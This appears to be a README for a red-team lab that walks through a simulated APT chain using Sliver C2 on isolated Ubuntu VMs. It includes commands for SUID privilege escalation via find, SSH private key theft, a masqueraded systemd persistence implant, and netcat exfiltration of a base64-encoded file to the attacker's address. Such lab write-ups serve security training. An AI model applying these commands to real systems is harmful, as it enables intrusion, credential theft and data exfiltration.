





# 🚀 Sliver C2 APT Simulation Lab

**Multi-phase Red Team exercise simulating a realistic Advanced Persistent Threat (APT) attack chain on Ubuntu 22.04.**

## 🎯 Objective
Simulate a full APT lifecycle using open-source tools in an isolated lab environment — from initial access to data exfiltration — without using commercial C2 frameworks.

## 📊 Attack Chain Overview
| Phase | Tactic | Technique | Result |
|-------|--------|-----------|--------|
| 1 | Initial Access | Sliver mTLS implant via SCP | ✅ C2 session established |
| 2 | Persistence + PrivEsc | Systemd service + SUID abuse (find) | ✅ Root + reboot persistence |
| 3 | Lateral Movement | SSH private key theft → pivot | ✅ 2 simultaneous sessions |
| 4 | Exfiltration | Base64 + netcat (DNS tunneling attempted) | ✅ File recovered on attacker |

## Network Diagram

## 🖼️ Key Evidence (Screenshots)
| Phase | Screenshot |
|-------|-------------|
| Phase 1 | [Sliver session established](screenshots/Screenshot_sliver_active_session.png) |
| Phase 2 | [Root shell via SUID exploit](screenshots/Screenshot_root_access.png.png) |
| Phase 3 | [Two active sessions after lateral move](screenshots/Screenshot_lateral_movement.png.png) |
| Phase 4 | [Exfiltrated file decoded on Kali](screenshots/Screenshot_data_exfiltration.png) |

## 🏗️ Lab Environment
| Component | Details |
|-----------|---------|
| Attacker | Kali Linux (192.168.59.11) |
| Victim 1 | Ubuntu 22.04 (192.168.59.12) |
| Victim 2 | Ubuntu 22.04 (192.168.59.13) |
| Network | VirtualBox Host-Only + NAT |
| C2 Framework | Sliver (mTLS) |

## 🔄 Full Attack Walkthrough

Click to expand — Phase 1: Initial Access

1. Started Sliver C2 as systemd service
2. Configured mTLS listener on port 8888
3. Generated Linux ELF implant (`UPSET_BIBLIOGRAPHY`)
4. Delivered via SCP to `/tmp/updater`
5. Executed implant → callback established

Click to expand — Phase 2: Persistence & Privilege Escalation

- Moved implant to `/usr/local/bin/.sysupdate` (masqueraded timestamp)
- Created `sysupdate.service` systemd unit
- Confirmed persistence after reboot
- Enumerated SUID binaries → found `/usr/bin/find`
- Exploited via: `find . -exec /bin/sh -p \; -quit`
- ✅ Root shell obtained, `/etc/shadow` read

Click to expand — Phase 3: Lateral Movement

- From root shell, discovered SSH trust to 192.168.59.13
- Downloaded `id_rsa` via Sliver: `download /home/victim/.ssh/id_rsa`
- Used stolen key: `ssh -i stolen_key.pem victim@192.168.59.13`
- Deployed Sliver implant on Ubuntu 2
- ✅ Two active sessions in Sliver console

Click to expand — Phase 4: Data Exfiltration

**Attempted:** DNS tunneling (dnscat2) — failed due to Ruby compatibility  
**Adapted to:** Base64 + netcat

# Attacker listener
nc -lvnp 9999

# Victim (via Sliver shell)
cat /home/victim/confidential.txt | base64 | nc 192.168.59.11 9999

## ⚠️ Disclaimer
This lab was conducted in an isolated VirtualBox environment with no connection to production networks. All techniques shown are for educational purposes and authorized security testing only.

## 📁 Full Documentation
Detailed Phase Walkthrough

Complete MITRE Mapping

Indicators of Compromise

## 📧 Contact
[Pranmoy] — [https://www.linkedin.com/in/pranmoy-patar-b99a142b3/]